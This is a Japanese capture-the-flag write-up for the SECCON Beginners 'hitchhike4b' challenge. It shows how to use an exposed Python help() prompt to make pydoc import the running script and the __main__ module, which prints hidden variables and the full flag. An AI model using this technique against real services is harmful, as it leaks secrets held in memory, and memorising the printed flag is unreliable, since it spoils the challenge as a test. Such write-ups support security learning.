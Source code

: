 # 解法
ncで接続すると、以下のような出力が得られた。  
```bash
$ nc hitchhike4b.quals.beginners.seccon.jp 55433
 _     _ _       _     _     _ _        _  _   _
| |__ (_) |_ ___| |__ | |__ (_) | _____| || | | |__
| '_ \| | __/ __| '_ \| '_ \| | |/ / _ \ || |_| '_ \
| | | | | || (__| | | | | | | |   <  __/__   _| |_) |
|_| |_|_|\__\___|_| |_|_| |_|_|_|\_\___|  |_| |_.__/


----------------------------------------------------------------------------------------------------

# Source Code

import os
os.environ["PAGER"] = "cat" # No hitchhike(SECCON 2021)

if __name__ == "__main__":
    flag1 = "********************FLAG_PART_1********************"
    help() # I need somebody ...

if __name__ != "__main__":
    flag2 = "********************FLAG_PART_2********************"
    help() # Not just anybody ...

----------------------------------------------------------------------------------------------------

Welcome to Python 3.10's help utility!

If this is your first time using Python, you should definitely check out
the tutorial on the internet at https://docs.python.org/3.10/tutorial/.

Enter the name of any module, keyword, or topic to get help on writing
Python programs and using Python modules.  To quit this help utility and
return to the interpreter, just type "quit".

To get a list of available modules, keywords, symbols, or topics, type
"modules", "keywords", "symbols", or "topics".  Each module also comes
with a one-line summary of what it does; to list the modules whose name
or summary contain a given string such as "spam", type "modules spam".

help>
```
上部にプログラムのソースが表示されている。  
動作としては`help()`を呼んでいるだけで、フラグは変数として保持されているようだ。  
SECCON 2021の[hitchhike](https://ptr-yudai.hatenablog.com/entry/2021/12/19/232158#Misc-227pts-hitchhike)ではページャーとしてlessが使えるが、今回はcatに書き換えられている。  
ページャーからの解決は難しそうである。  
`help`について調査することにし、[ここ](https://docs.python.org/ja/3/library/functions.html#help)を見ると中身はpydocとinspectが使われているようだ。  
pydocについては[ここ](https://docs.python.org/ja/3/library/pydoc.html)を見ればよい。  
以下のようなことが書かれている。  
```
オブジェクトとそのドキュメントを探すために、 pydoc はドキュメント対象のモジュールを import します。そのため、モジュールレベルのコードはそのときに実行されます。 if __name__ == '__main__': ガードを使って、ファイルがスクリプトとして実行したときのみコードを実行し、importされたときには実行されないようにして下さい。
```
`help`に指定したモジュールはimportされるため、ガード(`if __name__ == "__main__":`)が無いすべてのコードが実行されるようだ。  
さらに次のような記述が見られる。  
```
pydoc への引数がパスと解釈されるような場合で(オペレーティングシステムのパス区切り記号を含む場合です。例えばUnixならばスラッシュ含む場合になります)、さらに、そのパスがPythonのソースファイルを指しているなら、そのファイルに対するドキュメントが生成されます。
```
これにより任意の(実行中の自身を含む)pyファイルのドキュメントを生成できることがわかる。  
次にinspectについて[ここ](https://docs.python.org/ja/3/library/inspect.html)を見る。  
活動中のオブジェクトから情報を取得するようなので、変数を取得していることを期待して`help`から実行中のスクリプトのドキュメントを生成することを狙う。  
ここで、実行されているpythonのファイル名を探す必要があるが、ドキュメントの作成のみしか行えないことに気づく。  
変数でファイル名を保持していそうなものを探せばよい。  
コマンドライン引数の最初はファイル名であるはずなので、pythonのコマンドライン引数を用いる方法`sys.argv`を思い出し、取得すればよい(ほかにも`modules`からなど様々な方法がある)。  
```bash
help> sys
Help on built-in module sys:

NAME
    sys
~~~
DATA
~~~
    argv = ['./app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc.py']
~~~
help>
```
ファイル名が`app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc.py`とわかった。  
`help`でファイル名(拡張子なし)を指定してやる。  
```bash
help> app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc
 _     _ _       _     _     _ _        _  _   _
| |__ (_) |_ ___| |__ | |__ (_) | _____| || | | |__
| '_ \| | __/ __| '_ \| '_ \| | |/ / _ \ || |_| '_ \
| | | | | || (__| | | | | | | |   <  __/__   _| |_) |
|_| |_|_|\__\___|_| |_|_| |_|_|_|\_\___|  |_| |_.__/

~~~
help>

You are now leaving help and returning to the Python interpreter.
If you want to ask for help on a particular object directly from the
interpreter, you can type "help(object)".  Executing "help('string')"
has the same effect as typing a particular string at the help> prompt.
Help on module app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc:

NAME
    app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc

DATA
    flag2 = 'y_34r5_4nd_1n_my_3y35}'

FILE
    /home/ctf/hitchhike4b/app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc.py


help>
```
もう一度hitchhike4bが起動し、終了すると変数がドキュメントとして表示されていることがわかる。  
`flag2`が取得できたが、`flag1`が見えていない。  
ここでNAMEに注目すると`app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc`である。  
つまり`if __name__ != "__main__":`を通って`help`が呼び出されているので、NAMEを`__main__`にしてやれば`flag1`も同様に取得できると考えられる。  
```bash
help> __main__
Help on module __main__:

NAME
    __main__

DATA
    __annotations__ = {}
    flag1 = 'ctf4b{53cc0n_15_1n_m'

FILE
    /home/ctf/hitchhike4b/app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc.py


help>
```
`help`に`__main__`を渡してやると、案の定`flag1`が取得できた。  
`flag1`、`flag2`をつなげるとflagとなった。  

## ctf4b{53cc0n_15_1n_my_34r5_4nd_1n_my_3y35}